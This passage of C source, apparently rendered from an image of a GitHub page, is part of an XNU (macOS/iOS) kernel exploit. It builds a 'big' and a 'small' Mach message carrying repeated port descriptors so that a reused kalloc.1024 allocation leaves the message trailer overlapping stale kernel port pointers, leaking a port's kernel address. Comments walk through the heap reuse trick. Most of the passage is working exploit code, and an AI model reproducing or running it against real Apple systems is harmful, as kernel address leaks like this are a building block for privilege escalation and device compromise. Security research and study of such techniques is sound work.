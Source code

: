 ```c
     */
    mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &sent_port);
    mach_port_insert_right(mach_task_self(), sent_port, sent_port, MACH_MSG_TYPE_MAKE_SEND);

    printf("[*] Will get port %x address\n", sent_port);

    message_big_t   *big_message   = NULL;
    message_small_t *small_message = NULL;

    // Compute userland sizes of our message structs
    mach_msg_size_t big_size   = (mach_msg_size_t)sizeof(*big_message);
    mach_msg_size_t small_size = (mach_msg_size_t)sizeof(*small_message);

    // Allocate user buffers for the two send messages (+MAX_TRAILER_SIZE for safety/margin)
    big_message   = malloc(big_size   + MAX_TRAILER_SIZE);
    small_message = malloc(small_size + sizeof(uint32_t)*2 + MAX_TRAILER_SIZE);

    /*
     * 3) Prepare the "big" message:
     *    - Complex bit set (has descriptors)
     *    - 50 OOL port descriptors, all pointing to the same sent_port
     *    When you send a Mach message with port descriptors, the kernel “copy-ins” the userland port names (integers in your process’s IPC space) into an in-kernel ipc_kmsg_t, and resolves each name to the actual kernel object (an ipc_port).
     *    Inside the kernel message, the header/descriptor area holds object pointers, not user names. On the way out (to the receiver), XNU “copy-outs” and converts those pointers back into names. This is explicitly documented in the copyout path: “the remote/local port fields contain port names instead of object pointers” (meaning they were pointers in-kernel).
     */
    printf("[*] Creating first kalloc.1024 ipc_kmsg\n");
    memset(big_message, 0, big_size + MAX_TRAILER_SIZE);

    big_message->header.msgh_remote_port = port; // send to our receive right
    big_message->header.msgh_size        = big_size;
    big_message->header.msgh_bits        = MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND, 0)
                                         | MACH_MSGH_BITS_COMPLEX;
    big_message->body.msgh_descriptor_count = LEAK_PORTS;

    for (int i = 0; i < LEAK_PORTS; i++) {
        big_message->sent_ports[i].type        = MACH_MSG_PORT_DESCRIPTOR;
        big_message->sent_ports[i].disposition = MACH_MSG_TYPE_COPY_SEND;
        big_message->sent_ports[i].name        = sent_port; // repeated to fill array with pointers
    }

    /*
     * 4) Prepare the "small" message:
     *    - Fewer descriptors (LEAK_PORTS-10) so that, when the kalloc.1024 chunk is reused,
     *      the trailer sits earlier and *overlaps* bytes where descriptor pointers lived.
     */
    printf("[*] Creating second kalloc.1024 ipc_kmsg\n");
    memset(small_message, 0, small_size + sizeof(uint32_t)*2 + MAX_TRAILER_SIZE);

    small_message->header.msgh_remote_port = port;
    small_message->header.msgh_bits        = MACH_MSGH_BITS(MACH_MSG_TYPE_COPY_SEND, 0)
                                           | MACH_MSGH_BITS_COMPLEX;
    small_message->body.msgh_descriptor_count = LEAK_PORTS - 10;

    for (int i = 0; i < LEAK_PORTS - 10; i++) {
        small_message->sent_ports[i].type        = MACH_MSG_PORT_DESCRIPTOR;
        small_message->sent_ports[i].disposition = MACH_MSG_TYPE_COPY_SEND;
        small_message->sent_ports[i].name        = sent_port;
    }

```